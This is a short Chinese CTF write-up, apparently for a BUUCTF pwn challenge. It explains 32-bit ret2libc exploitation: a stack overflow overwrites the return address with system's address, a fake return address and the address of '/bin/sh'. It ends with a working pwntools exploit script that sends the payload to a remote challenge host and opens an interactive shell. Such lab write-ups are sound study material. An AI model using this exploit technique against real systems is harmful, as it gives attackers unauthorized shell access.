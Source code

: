 ![alt text](image-1.png)

PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag
